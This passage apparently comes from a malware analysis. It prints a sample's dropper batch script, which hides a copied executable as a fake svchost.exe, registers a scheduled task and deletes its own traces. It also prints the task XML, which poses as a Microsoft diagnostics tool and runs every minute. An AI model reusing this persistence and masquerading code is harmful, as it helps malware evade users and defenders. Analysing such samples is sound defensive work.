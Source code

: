 ```
64.exe
SystemCheck.xml
start.bat
```

# start.bat

```
attrib -h -r -s /S /D %userprofile%\AppData\Roaming\Microsoft\Windows\\svchost.exe
copy /y "64.exe" "%userprofile%\AppData\Roaming\Microsoft\Windows\svchost.exe"
attrib +h +r +s /S /D %userprofile%\AppData\Roaming\Microsoft\Windows\\svchost.exe
schtasks.exe /Create /XML "SystemCheck.xml" /TN "System\SystemCheck"
del 64.exe /f
del SystemCheck.xml /f
del CRDebugLog.txt /f
del CLDebugLog.txt /f
del "%0"
```

This copies the file to `%userprofile%\AppData\Roaming\Microsoft\Windows\svchost.exe`, which made it clear that this is indeed a malicious file. It then goes on to create a scheduled task with `SystemCheck.xml`.

## SystemCheck.xml

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Author>Microsoft Corporation</Author>
    <Description>Starts a system diagnostics application to scan for errors and performance problems.</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2017-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
    <TimeTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2017-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="Author">
      <LogonType>InteractiveToken</LogonType>
      <RunLevel>LeastPrivilege</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
```